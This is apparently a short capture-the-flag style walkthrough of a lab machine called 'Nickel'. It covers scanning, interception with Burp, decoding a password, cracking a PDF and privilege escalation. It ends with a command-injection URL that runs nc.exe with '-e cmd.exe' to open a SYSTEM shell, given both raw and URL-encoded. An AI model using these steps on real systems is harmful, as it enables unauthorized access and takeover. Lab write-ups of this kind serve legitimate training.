 # Nickel

Starting off with an nmap scan

![](<../../.gitbook/assets/image (3) (1) (1).png>)

Going to port 80

![](<../../.gitbook/assets/image (4) (1) (1).png>)



Intercepting the commands using burp suite we can identify what's going on

We could use burp to send a post request too but I made use of curl

![](<../../.gitbook/assets/image (7) (1) (1).png>)



Seems like it was base 64 encoded and can use the password to get initial foothold

![](<../../.gitbook/assets/image (16) (1).png>)

### Priv Esc

Going to the ftp directory

![](<../../.gitbook/assets/image (9) (1) (1).png>)

I transferred the file to my attacker machine using

`scp ariah@192.168.79.99:C:/ftp/Infrastructure.pdf .`

``

`The file was encrypted`

![Cracked the password using pdfcrack](<../../.gitbook/assets/image (6) (1) (1).png>)

``

Taking a look at the pdf

![
](<../../.gitbook/assets/image (5) (1) (1).png>)

An internal service seems to be running as authority

![](<../../.gitbook/assets/image (14) (1).png>)



We can make use of nc.exe by running it as a root user and get a shell as Administrator



So i ran

C:\Users\ariah\Desktop>curl [http://nickel/?cmd](http://nickel/?cmd) /c C:\Users\ariah\Desktop\nc.exe 127.0.0.1 4444 -e cmd.exe\


With url encoding

curl [http://nickel/?cmd%20%2Fc%20C%3A%5CUsers%5Cariah%5CDesktop%5Cnc.exe%20127.0.0.1%204444%20-e%20cmd.exe](http://nickel/?cmd%20%2Fc%20C%3A%5CUsers%5Cariah%5CDesktop%5Cnc.exe%20127.0.0.1%204444%20-e%20cmd.exe)

![](<../../.gitbook/assets/image (17) (1) (1).png>)

![](<../../.gitbook/assets/image (15) (1).png>)

